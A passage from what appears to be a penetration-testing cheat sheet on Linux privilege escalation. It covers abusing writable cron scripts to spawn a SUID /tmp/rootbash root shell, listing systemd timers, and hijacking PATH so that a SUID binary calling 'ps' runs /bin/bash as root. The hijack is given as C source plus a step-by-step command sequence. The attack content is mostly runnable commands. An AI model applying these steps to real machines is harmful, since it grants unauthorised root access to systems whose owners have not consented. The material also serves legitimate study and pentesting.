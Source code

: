Make sure the script is executable:
```bash
chmod +x <CRON-SCRIPT>.sh
```
Wait for the cron job to run and then execute the newly created SUID script in /tmp:
```bash
/tmp/rootbash
```
You will now have a root shell.

Refer: 
[linux-privilege-escalation-by-exploiting-cron-jobs](https://www.hackingarticles.in/linux-privilege-escalation-by-exploiting-cron-jobs/)
[https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/](https://materials.rangeforce.com/tutorial/2020/04/17/Cron-Privilege-Escalation/)

## Systemd timers

```powershell
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```

## PATH Variables
First, search for the file having SUID or 4000 permission with help of Find command.
```bash
$find / -perm -u=s -type f 2>/dev/null
#home/quac/script/shell
```

### If executing `ps` in the shell, Example:
```bash
#include <unistd.h>
void main(){
	setuid(0);
	setgid(0);
	system("ps");
}
```
Then:
`Method 1:`
```bash
$cd /tmp
$echo "/bin/bash" > ps
$chmod 777 ps
$echo $PATH
$export PATH=/tmp:$PATH
$cd /home/raj/script
$./shell
$whoami
#root
```
